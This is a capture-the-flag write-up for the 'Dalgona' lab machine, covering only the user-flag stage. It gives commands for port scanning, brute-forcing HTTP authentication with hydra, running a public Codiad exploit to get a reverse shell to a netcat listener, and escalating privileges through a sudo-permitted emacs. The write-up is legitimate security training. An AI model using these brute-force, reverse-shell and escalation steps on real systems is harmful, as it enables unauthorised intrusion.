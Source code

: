 # CTF: Dalgona

![Difficulty: Hard](https://img.shields.io/badge/difficulty-hard-%23ff0000)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)  
![alt text](img/dalgona.png)
## Description

> 오징어 게임에 참여하여 456억의 당첨 기회를 잡으세요!

## Write-up

Reference to the Korean series "Squid Game". We have to find the user and root flag.

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```

![alt text](img/dalgona1.png)

We found a page with text in Korean. We can translate the text using Google Translate.

```bash
오징어 게임에 오신 것을 환영합니다.
이 작업을 수행하려면 모양을 부수지 않고 추출해야 합니다.
행운을 빕니다!

Bienvenue dans le jeu du calmar.
Pour ce faire, vous devez extraire la forme sans la détruire.
bonne chance!
```

The text is a hint to extract the shape without destroying it. If we have the reference to the Korean series "Squid Game", we can assume that the shape is the umbrella shape from the series and we have to lick the shape without breaking it.

We can try to access the page with the path `/lick`.

```bash
http://$IP/lick
```

![alt text](img/dalgona2.png)

We keep the username `player456`

When click on the text we have redirect to the page `/lick/ide` with a HTTP Authentication.

We can use `hydra` to brute force the password.

```bash
hydra -l <USER> -P rockyou.txt <IP> http-get /lick/ide -t 64
```

We found the password and we can connect to the page `/lick/ide` with the credentials `player456:<PASSWORD>`

We have a code editor (Codiad) we can try to find exploit for this editor.
    
```bash
searchsploit codiad
```

https://www.exploit-db.com/exploits/49705

We can use this exploit to get a reverse shell.

On the attacker machine, we can create a python script to get a reverse shell.

```
nc -lvnp <PORT>
```

On the attacker machine, we can run the python script.

```bash
python exploit.py http://player456:<PASSWORD>@<IP>/lick/ide/ player456 <PASSWORD> <IP> <PORT> linux
```

We can use command to be in bash shell.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Go to home directory.
    
```
cd /home
ls
player456
```
We can try to `sudo -l` to see if we can run any command as root.

```
sudo -l
User www-data may run the following commands on squidgame:
    (player456) NOPASSWD: /usr/bin/emacs
```

We have to export TERM variable to run the command.

```
TERM=xterm; export TERM
sudo -u player456 emacs -Q -nw --eval '(term "/bin/sh")' 
```

We can read the user flag.

**Well done! You have successfully captured the user flag.**
